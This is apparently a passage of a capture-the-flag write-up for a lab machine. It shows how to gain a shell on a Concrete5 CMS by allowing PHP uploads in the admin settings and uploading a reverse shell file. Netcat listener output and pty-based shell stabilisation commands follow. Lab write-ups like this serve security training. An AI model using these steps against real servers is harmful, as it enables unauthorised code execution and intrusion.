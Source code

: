 
<h3></h3>

<p>

- clicked <code>System & Settings</code><br>
- clicked <code>Allowed File Types</code><br>
- added <code>php</code><br>
- saved<br>
- navigated to <code>File</code><br>
- clicked <code>Upload Filed</code><br>
- dragged <code>rev.php</code> to the upload panel<br>
- clicked <code>Close</code><br>
- navigated to the link provided for the uploaded file<br>
- got the shell<br>
- stabilized the shell</p>



<img width="1121" height="497" alt="image" src="https://github.com/user-attachments/assets/2a5fa149-2a68-48cc-bb7c-8c11ee6ed0bc" />

<img width="1125" height="494" alt="image" src="https://github.com/user-attachments/assets/d6012033-7dda-4a9c-985a-e2413e679d5e" />

<img width="1065" height="439" alt="image" src="https://github.com/user-attachments/assets/b5780841-fd8d-432a-8482-1112e286424a" />

<img width="1102" height="471" alt="image" src="https://github.com/user-attachments/assets/7ceaf197-c738-4e1e-a4c8-a26a4b2bbd1b" />

<img width="1121" height="31" alt="image" src="https://github.com/user-attachments/assets/0db77428-8153-4f03-bd5e-c094c29b3bd9" />

<img width="1050" height="180" alt="image" src="https://github.com/user-attachments/assets/839ffbd2-c7b6-4e8f-b2d5-cda63322a1e3" />

```bash
:~/SuperSpam# nc -nlvp 4444
...
<w/html/concrete5/application/files/2117/5425/5942$ which python3
which python3
/usr/bin/python3
<w/html/concrete5/application/files/2117/5425/5942$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
<942$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<w/html/concrete5/application/files/2117/5425/5942$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~/SuperSpam# stty raw -echo; fg
nc -nlvp 4444

<w/html/concrete5/application/files/2117/5425/5942$ export TERM=xterm
www-data@ip-10-201-83-141:/var/www/html/concrete5/application/files/2117/5425/5942$
```

```bash
www-data@ip-10-201-83-141:/var/www/html/concrete5/application/files/2117/5425/5942$ whoami;id;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/var/www/html/concrete5/application/files/2117/5425/5942
```
